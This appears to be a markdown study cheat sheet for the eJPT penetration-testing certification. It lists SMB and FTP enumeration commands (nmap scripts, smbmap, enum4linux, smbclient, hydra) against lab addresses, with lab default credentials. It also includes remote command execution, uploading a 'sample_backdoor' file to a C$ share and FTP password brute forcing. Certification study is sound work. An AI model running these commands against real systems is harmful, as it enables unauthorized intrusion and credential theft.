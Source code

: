 # eJPT commands
This is a list of all the commands that will be learnt in the eJPT, remember you wont need to use all of them but having them open will help

- enumeration
	- SMB
		- Nmap
			- - `nmap -p445 --script smb-protocols 10.2.24.25` - SMB Protocols
			- `nmap -p445 --script smb-security-mode 10.2.24.25` - SMB Security levels
			- `nmap -p445 --script smb-enum-sessions 10.2.24.25` - SMB logged in users
			- `nmap -p445 --script smb-enum-sessions --script-args smbusername=administrator,smbpassword=smbserver_771 10.2.24.25` - login admin default
			- `nmap -p445 --script smb-enum-shares 10.2.24.25` - SMB shares
			- `nmap -p445 --script smb-enum-users 10.2.24.25` - SMB users
			- `nmap -p445 --script smb-enum-users --script-args smbusername=administrator,smbpassword=smbserver_771 10.2.24.25` - SMB windows users
			- `nmap -p445 --script smb-server-stats --script-args smbusername=administrator,smbpassword=smbserver_771 10.2.24.25` - Server statistics
			- `nmap -p445 --script smb-enum-domains--script-args smbusername=administrator,smbpassword=smbserver_771 10.2.24.25` - system domains
			- `nmap -p445 --script smb-enum-groups--script-args smbusername=administrator,smbpassword=smbserver_771 10.2.24.25` - Available groups
			- `nmap -p445 --script smb-enum-services --script-args smbusername=administrator,smbpassword=smbserver_771 10.2.24.25` - Services
			- `nmap -p445 --script smb-enum-shares,smb-ls --script-args smbusername=administrator,smbpassword=smbserver_771 10.2.24.25` - ls cmd
		- SMBMAP
			- - `nmap -p445 --script smb-protocols 10.2.21.233`
			- `smbmap -u guest -p "" -d . -H 10.2.21.233`
			- `smbmap -u administrator -p smbserver_771 -d . -H 10.2.21.233` - Login
			- `smbmap -u administrator -p smbserver_771 -H 10.2.21.233 -x 'ipconfig’` - Running commands
			- `smbmap -u administrator -p 'smbserver_771' -H 10.2.21.233 -L` - List all drives
			- `smbmap -u administrator -p 'smbserver_771' -H 10.2.21.233 -r 'C$’` - List directory contents
			- `smbmap -u admin -p password1 -H 192.174.58.3` - SMB shares using credentials
			- `smbmap -u administrator -p 'smbserver_771' -H 10.2.21.233 --upload '/root/sample_backdoor' 'C$\\sample_backdoor’` - Upload file
			- `smbmap -u administrator -p 'smbserver_771' -H 10.2.21.233 --download 'C$\\flag.txt’` - Download a file
		- SMB basic recon
			- - `nmap -sV -p 139,445 192.28.157.3`
			- `nmap --script smb-os-discovery -p 445 192.28.157.3` - SMB OS detection
		- enum4linux
			- - `enum4linux -o 192.230.128.3`
			- `enum4linux -U 192.230.128.3` - users
			- `enum4linux -S 192.187.39.3` - shares
			- `enum4linux -G 192.187.39.3` - domain groups
			- `enum4linux -i 192.187.39.3` - Check if samba server is configured for printing
			- `enum4linux -r -u "admin" -p "password1" 192.174.58.3` - List users SUID
		- SMBCLIENT
			- Ftp-like client to access SMB/CIFS resources on servers so you can do more enumeration
			- `smbclient -L 192.28.157.3 -N`
			- `smbclient [//192.187.39.3/public](<https://192.187.39.3/public>) -N`
			- `smbclient -L 192.28.157.3 -U jane` - use “abc123” as password
			- `smbclient [//192.174.58.3/jane](<https://192.174.58.3/jane>) -U jane`
			- `smbclient [//192.174.58.3/admin](<https://192.174.58.3/admin>) -U admin` - use “password1” as password
			- `smb> get flag` - Important cat and type wont work in smb
	- FTP
		- `nmap -p21 -sV -sC -O 192.217.238.3`
		- Try Anonymous login `ftp 192.217.238.3` - `anonymous anonymous`
		- `hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.217.238.3 -t 4 ftp`- hydra brute force